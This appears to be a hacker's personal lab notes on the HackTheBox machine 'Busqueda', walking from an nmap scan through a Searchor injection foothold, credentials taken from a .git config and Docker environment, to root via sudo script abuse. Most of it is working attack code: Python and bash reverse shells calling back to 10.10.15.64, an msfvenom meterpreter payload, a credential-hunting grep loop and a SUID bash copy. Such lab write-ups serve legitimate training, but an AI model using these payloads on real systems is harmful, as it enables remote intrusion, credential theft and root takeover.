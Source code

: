 #Busqueda

IP: 10.129.215.11
Release date: 08 Apr, 2023
Completion date: 16 Oct, 2024
## Enumeration

```
sudo nmap -sV -sC -sT -O -p- $IP
```
```
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4f:e3:a6:67:a2:27:f9:11:8d:c3:0e:d7:73:a0:2c:28 (ECDSA)
|_  256 81:6e:78:76:6b:8a:ea:7d:1b:ab:d4:36:b7:f8:ec:c4 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://searcher.htb/
```

# Foothold

CVE-2023-43364
https://github.com/nexis-nexis/Searchor-2.4.0-POC-Exploit-?tab=readme-ov-file

```
engine=Google&query=whoami', exec("import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.10.15.64',1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);"))#
```

## Enumeration
target user: root

netstat -antp
localhost ports 3306 3000 5000 33759 222 45350

3000 gitea.searcher.htb
5000 another instance of searcher.htb


ls -lah /var/www/app/.git
cat /var/www/app/.git/config

```
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
[remote "origin"]
	url = http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git
	fetch = +refs/heads/*:refs/remotes/origin/*
[branch "main"]
	remote = origin
	merge = refs/heads/main
```
	
confirmed:
svc:jh1usoih2bkjaspwe92	

# Finding Priv Esc

```
svc@busqueda:~$ sudo -l
[sudo] password for svc: 
Matching Defaults entries for svc on busqueda:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User svc may run the following commands on busqueda:
    (root) /usr/bin/python3 /opt/scripts/system-checkup.py *
```

```
svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py *
Usage: /opt/scripts/system-checkup.py <action> (arg1) (arg2)

     docker-ps     : List running docker containers
     docker-inspect : Inpect a certain docker container
     full-checkup  : Run a full system checkup
```

for i in $(find / -name *.ini 2>/dev/null | grep -v "doc\|lib");do echo -e "\nFile: " $i; grep "user\|password\|pass" $i 2>/dev/null | grep -v "\#";done

```
echo 'import pty; pty.spawn("/bin/bash")' > shell.py
echo $PATH
/home/svc/.local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
export PATH="/tmp:$PATH"
```

## Linpeas

/home/svc/.local/bin
docker0 182.17.0.1
172.18.0.1
172.19.0.1
172.20.0.1
/usr/bin/write.ul
/home/svc/snap/lxd/common/config/config.yml

/opt/containerd

/var/lib/command-not-found/commands.db


 echo "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.15.64\",31337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);" > shell.py
 
 
 
msfvenom -p linux/x64/meterpreter_reverse_tcp lhost=10.10.15.64 lport=1337 -f elf > s
 
portfwd add -l 3000 -p 3000 -r localhost
 
 
 ----

 ### format with jq
 ```
 sudo python3 /opt/scripts/system-checkup.py docker-inspect '{{json .}}' gitea | jq .
 ```
 
 sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect '{{json .}}' gitea
 sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect '{{json .}}' mysql_db
 "Env":["MYSQL_ROOT_PASSWORD=jI86kGUuj87guWr3RyF","MYSQL_USER=gitea","MYSQL_PASSWORD=yuiu1hoiu4i5ho1uh","MYSQL_DATABASE=gitea"
 
 gitea password reuse
 administrator:yuiu1hoiu4i5ho1uh
 
# this is most of it. not sure why its not working ;< 
echo -e '!#/bin/sh bash' > full-checkup.sh
chmod +x full-checkup.sh
sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
jh1usoih2bkjaspwe92

# Priv Esc

## create the exploit
echo -e '#!/bin/bash\n\ncp /bin/bash /tmp/0xdf\nchmod 4777 /tmp/0xdf' > full-checkup.sh
chmod +x full-checkup.sh

### this works too
echo -e '#!/bin/bash\n sh -i >& /dev/tcp/10.10.15.64/9001 0>&1' > full-checkup.sh
the important piece is the \n to create a new line...

## run the exploit
sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup

## cd to the directory and run script with -p to not drop permissions.
cd /tmp
./0xdf -p





